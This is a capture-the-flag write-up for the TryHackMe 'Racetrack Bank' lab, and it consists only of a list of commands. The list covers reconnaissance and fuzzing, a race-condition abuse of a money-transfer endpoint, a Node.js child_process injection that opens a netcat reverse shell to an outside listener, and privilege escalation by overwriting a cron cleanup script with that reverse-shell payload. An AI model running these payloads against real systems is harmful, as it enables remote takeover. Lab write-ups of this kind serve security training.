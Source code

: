 # TryHackMe-Racetrack Bank

**Scope:**

- Race Condition
- Node.js

**Keywords:**

- Path Traversal & Endpoint Control
- Race Condition Exploit
- Python Script
- Initial Logic Discovery
- Node.js
- Remote Code Execution
- Fuzzing
- wfuzz
- ffuf
- Reverse Shell

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `wfuzz -w /usr/share/wordlists/dirb/big.txt -u http://racetrackbank.thm/FUZZ -t 50 -c --hc 404,500,501,502,503`
- `nmap -sV -p 80 --script=http-enum -oN nmap_http_enum.txt -Pn $target_ip`
- `gobuster dir -u http://racetrackbank.thm -w /usr/share/wordlists/dirb/common.txt --random-agent -e -b 404,501,502,503 -x html,php,txt -o gobuster_result.txt`
- `curl -X POST http://racetrackbank.thm/api/create -d "username=overthenet" -d "password=overthenet" -d "password2=overthenet"`
- `curl -X POST http://racetrackbank.thm/api/create -d "username=otheruser" -d "password=otheruser" -d "password2=otheruser"`
- `seq 1 1000 | awk '{print 1}' > wordlist_number.txt`
- `ffuf -c -u http://racetrackbank.thm/api/givegold -X POST -w wordlist_number.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AlF7Vx_3YHB5MkjJScZlWB6gVszaY6r83.ry4skt5Ypt%2BSSilK1f8EOBmzdYspyz9zkfu4Kq1mHWQ" -d "user=otheruser&amount=FUZZ" -v`
- `wfuzz -c -w wordlist_number.txt -u http://racetrackbank.thm/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3ABfmoqa8Zxf9PfHBp3WFx_9j4o_OAuj9J.yjtwtJprZOn87z2Fj%2BJ5n0FzjFosDCdjom6W7EwKEpg" -b "user=overthenet&amount=FUZZ" -v -X POST`
- `python racescript.py`
- `nc -nlvp 21222`

**System Commands:**

- `process.cwd()`
- `python -c 'import pty; pty.spawn("/bin/sh")’`
- `export term=XTERM`
- `require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f')`
- `cat /etc/crontab`
- `find / -perm -4000 -user root -type f 2> /dev/null`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f`
- `mv cleanupscript.sh > cleanupscript.sh.backup`
- `rm cleanupscript.sh`
- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 22333 >/tmp/f' > cleanupscript.sh`

